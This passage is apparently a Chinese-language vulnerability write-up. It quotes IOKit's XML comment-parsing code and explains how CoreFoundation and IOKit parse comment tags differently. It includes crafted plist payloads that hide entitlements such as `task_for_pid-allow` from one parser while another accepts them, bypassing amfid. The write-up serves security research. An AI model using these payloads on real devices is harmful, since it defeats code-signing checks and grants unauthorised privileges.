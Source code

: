 这是IOKit的注释标签处理代码：

```
if (c == '!') `{`
    c = nextChar();
    bool isComment = (c == '-') &amp;&amp; ((c = nextChar()) != 0) &amp;&amp; (c == '-');
    if (!isComment &amp;&amp; !isAlpha(c)) `{`
        return TAG_BAD;                      // &lt;!1, &lt;!-A, &lt;!eos
    `}`
    while (c &amp;&amp; (c = nextChar()) != 0) `{`
        if (c == 'n') `{`
            state-&gt;lineNumber++;
        `}`
        if (isComment) `{`
            if (c != '-') `{`
                continue;
            `}`
            c = nextChar();
            if (c != '-') `{`
                continue;
            `}`
            c = nextChar();
        `}`
        if (c == '&gt;') `{`
            (void)nextChar();
            return TAG_IGNORE;
        `}`
        if (isComment) `{`
            break;
        `}`
    `}`
    return TAG_BAD;
`}`
```

可以看出, IOKit将检查`!--`字符, 正确地将指针前进三个字符, 然后再看到`-&gt;`, 这不会结束注释。反之, CF仅将指针前移两个字符, 因此它将第二个字符解析两次, 从而同时看到`&lt;!--`和`--&gt;`。这意味着IOKit将`&lt;!---&gt;`视为注释的开始, 而CF则将其视为开始和结束。之后, 我们为两个解析器提供`&lt;!--&gt;`标签, 该标签过于简短以至于无法被两个解析器解析为完整注释。但是在注释中与未在注释中会引起有趣的行为, 如果我们当前在注释中, 则两个解析器都会看到`--&gt;`结束注释, 否则它们都只会看到`&lt;!--`开始标签。总而言之, 这意味着：

```
&lt;!---&gt;
CF sees these bits
&lt;!--&gt;
IOKit sees these bits
&lt;!-- --&gt;
```

至此我们无需继续关注XPC, 后续测试中XPC与IOKit解析结果完全相同, 对我们而言算是好消息一桩。可以使用CF偷偷获得超过amfid的权利, 与此同时IOKit和XPC解析时显示它们！我测试了另外两个变体, 结果不尽相同：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"&gt;
&lt;plist version="1.0"&gt;
&lt;dict hurr="&gt;
&lt;/dict&gt;
&lt;/plist&gt;
"&gt;
    &lt;key&gt;task_for_pid-allow&lt;/key&gt;
    &lt;true/&gt;
&lt;/dict&gt;
&lt;/plist&gt;
```
